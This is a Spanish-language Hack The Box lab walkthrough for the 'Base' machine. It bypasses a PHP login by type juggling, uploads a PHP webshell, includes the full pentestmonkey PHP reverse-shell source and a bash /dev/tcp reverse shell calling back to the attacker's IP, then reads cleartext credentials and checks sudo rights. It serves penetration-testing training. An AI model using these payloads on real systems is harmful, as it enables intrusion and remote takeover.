--------
- Tags: #vulnerabilidad #CustomApplications #sourcecodeanalysis #authentication #apache #php #Reconnaisance #WebSiteStructureDiscovery #SUDOexploitation #Authenticationbypass #cleartextcredentials #ArbitraryFileUpload #cleartextcredentials #ArbitraryFileUpload #informationdisclosure #phptypejuggling
-------



## 🎯 HTB: Base — _Walkthrough paso a paso_

> Dificultad: 🟩 Very Easy  
> Etiquetas clave: `PHP`, `Apache`, `Authentication Bypass`, `Clear Text Credentials`, `SUDO Exploitation`, `Type Juggling`


## 🧩 Tarea 1 — ¿Qué dos puertos TCP están abiertos?

---

### 🔍 Escaneo inicial con Nmap

```bash
sudo nmap -sS -sV -Pn -p- 10.129.95.184
```

Resultado:



✅ **Respuesta:** `22, 80`


## 🧩 Tarea 2 — ¿Cuál es la ruta relativa para la página de login?

---

### 🌐 Navegación web

Abrimos en el navegador:

```bash
http://10.129.95.184
```

Se identifica el login en:

```bash
/login/login.php
```



Interfaz de login simple con formulario de usuario y contraseña.

✅ **Respuesta:** `/login/login.php`


## 🧩 Tarea 3 — ¿Cuántos archivos hay en el directorio `/login`?

---

### 📂 Indexación del directorio

Accedemos directamente a:

```bash
http://10.129.95.184/login/
```

Se listan 3 archivos:


✅ **Respuesta:** `3`


## 🧩 Tarea 4 — ¿Cuál es la extensión de un archivo swap?

---

### 📄 Archivo swap (`.swp`)

Durante la exploración del directorio `/login`, se encuentra:

```bash
login.php.swp
```

Listado de archivos en `/login`, donde uno de ellos es un archivo `.swp`.

💡 Estos archivos `.swp` son **archivos temporales generados por el editor Vim**, utilizados como respaldo mientras se edita un archivo. A veces contienen **fragmentos de código fuente**, credenciales u otras pistas si el archivo no fue cerrado correctamente.

✅ **Respuesta:** `.swp`


## 🧩 Tarea 5 — ¿Qué función PHP se está utilizando en el backend para comparar el usuario y la contraseña?

---

### 🔍 Análisis del archivo swap (`login.php.swp`)

Se descarga el archivo `.swp` que pertenece a `login.php` (archivo de sesión de Vim).  
Se abre con:

```bash
vim login.php.swp
```

A medida que se avanza en el contenido, se recupera código fuente útil.





Usaremos "vim -r" para ver el archivo mejor.

```bash
vim -r login.php.swp
```



Esto te permitirá **recuperar el contenido original** desde el swap si Vim detecta que el archivo fue cerrado de forma incorrecta. Luego podrás guardarlo con `:w`.

📜 Fragmento relevante encontrado:

```bash
if (strcmp($username, $_POST['username']) == 0) {
    if (strcmp($password, $_POST['password']) == 0) {
        session_start();
        $_SESSION['user_id'] = 1;
        header("Location: /upload.php");
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }
}
```

### ✅ Función identificada

> **`strcmp()`**

💡 La función `strcmp()` compara dos strings **de forma binaria** y devuelve `0` si son exactamente iguales.


## 🔹 Tarea 6 – ¿Dónde se almacenan los archivos subidos?

### 🧠 Método:

Nos dan una pista: _"Usa una herramienta como `gobuster` para la enumeración de directorios."_  
Así que usamos `gobuster` con una wordlist más extensa (en este caso: `raft-large-directories.txt`) para encontrar directorios ocultos.

```bash
gobuster dir -u http://10.129.95.184 -w /home/alex/SecLists-master/Discovery/Web-Content/raft-large-directories.txt
```



### 🔎 Resultado:

Encontramos un directorio oculto con el nombre:

```bash
/_uploaded
```

Este directorio **no aparecía** con la lista `common.txt`, pero sí con `raft-large-directories.txt`, que es más extensa y específica para detectar rutas raras o poco comunes.


## 🧩 Tarea: Bypassear Login (PHP Type Juggling) y acceder a panel de subida

---

### 🔍 Contexto

Tras encontrar el directorio `/login` usando **Gobuster**, accedimos a:

```bash
http://10.129.95.184/login/login.php
```

Al cargar la web, vimos un típico formulario de login, sin usuarios conocidos ni pista visible en HTML. Sin embargo, el formulario parecía vulnerable al **PHP Type Juggling**.

### ⚙️ Técnica: PHP Type Juggling

La vulnerabilidad ocurre cuando PHP compara variables mal definidas, como arrays con strings, usando `==` en vez de `===`.

Este payload funciona si el código hace algo como:

```bash
if ($_POST['username'] == 'admin' && $_POST['password'] == 'admin')
```

Y se le pasa:

```bash
username[]=admin&password[]=admin
```

### 🛠️ Paso a paso con Burp Suite

1. 🔓 **Intercepción activa** en Burp Suite.
    
2. Enviamos el formulario de login desde el navegador.
    
3. En Burp, modificamos el **body** del POST así:


```bash
username[]=admin&password[]=admin
```



- Hacemos **Send** desde **Repeater**.
    
- La respuesta devuelve un `HTTP/1.1 302 Found` con redirección a:

```bash
Location: /upload.php
```

Clic derecho → `Show response in browser` → Se genera una URL como esta:





Copiamos y la pegamos en el navegador (sin intercept on), y **accedemos al panel de subida**:



### ✅ Resultado

Hemos logrado autenticarnos y acceder a:

```bash
http://10.129.95.184/upload.php
```

Lo que confirma que la autenticación estaba vulnerable a Type Juggling y hemos conseguido acceso al portal **Admin File Uploads** 🌀.

## 🧨 Objetivo: Obtener RCE (ejecución remota de comandos)

### 📤 Paso 1 – Crear una webshell

Usamos una **webshell sencilla en PHP**, como:

```bash
<?php system($_GET['cmd']); ?>
```

Guárdala como `shell.php`.

> 💡 También puedes usar algo más completo como la [PentestMonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell), si quieres una reverse shell.

```bash
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.159';
$port = 1337;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```


### 🧪 Paso 2 – Subir la shell al servidor

1. En la web de `upload.php`, pulsa “**Select your upload**”.
    
2. Elige el archivo `shell.php`.
    
3. Sube el archivo.


### 🔎 Paso 3 – Buscar tu shell en `/uploaded`

Tu shell debería estar disponible en:

```bash
http://10.129.95.184/_uploaded/shell.php
```


### 💣 Paso 4 – Ejecutar comandos

Prueba en el navegador:

```bash
http://10.129.95.184/_uploaded/shell.php?cmd=whoami
```



Y después:

```bash
?cmd=ls /home
```



👤 Respuesta del servidor: 

```bash
john
```

🔎 Con esto ya tenemos el **usuario con home directory: `john`**


## 🧩 Tarea 8 - ¿Cuál es la contraseña del usuario presente en el sistema?

### 🎯 Objetivo:

Encontrar la contraseña del usuario `john` en el sistema remoto, tras haber detectado su existencia en `/home`.

### 🛠️ Paso a paso

#### 1. 🔧 Configuración de entorno y herramientas

- Se activa **FoxyProxy** en Firefox apuntando a **BurpSuite**.
    
- Se abre la URL vulnerable con ejecución remota de comandos:

```bash
http://10.129.95.184/_uploaded/shell.php?cmd=whoami
```



#### 2. 🎯 Captura de la petición en Burp

- En BurpSuite, dentro de **Proxy > Intercept**, se captura la petición.
    
- Se reenvía la misma a la pestaña **Repeater** para poder modificarla.






#### 3. 💣 Generar Reverse Shell

- Se reemplaza el `cmd=whoami` por una reverse shell tipo Bash:



```bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.159/4444 0>&1'
```

La cadena se **URL-encodea** (Control+U) en el Inspector de Burp para evitar errores de parsing.




#### 4. ⏳ Escucha con Netcat

- En una terminal se lanza un listener con `nc`:

```bash
nc -lvnp 4444
```



#### 5. 🚪 Ejecución y obtención de acceso

- Se presiona **Send** en Repeater.
    
- Se recibe una shell como usuario `www-data`:



### 🔍 Enumeración y descubrimiento de la contraseña

- Una vez dentro, se exploran los directorios web:



Se descubre el archivo `config.php`, que contiene las credenciales:

```bash
$username = "admin";
$password = "thisisagoodpassword";
```

### ✅ Resultado final

> **Contraseña descubierta:** `thisisagoodpassword`  
> **Usuario presente:** `admin`  
> 📁 **Ruta del hallazgo:** `/var/www/html/login/config.php`


### 🧩 TAREA 9 - ¿Qué comando puede ejecutar `john` como root?

#### 🎯 Objetivo:

Encontrar qué comando puede ejecutar el usuario `john` como root.

#### 📌 Proceso:

1. **Accedemos vía SSH con john**:

```bash
ssh john@10.129.95.184
Password: thisisagoodpassword
```

2. **Verificamos permisos sudo**:

```bash
sudo -l
```

Salida:

```bash
User john may run the following commands on base:
(root : root) /usr/bin/find
```

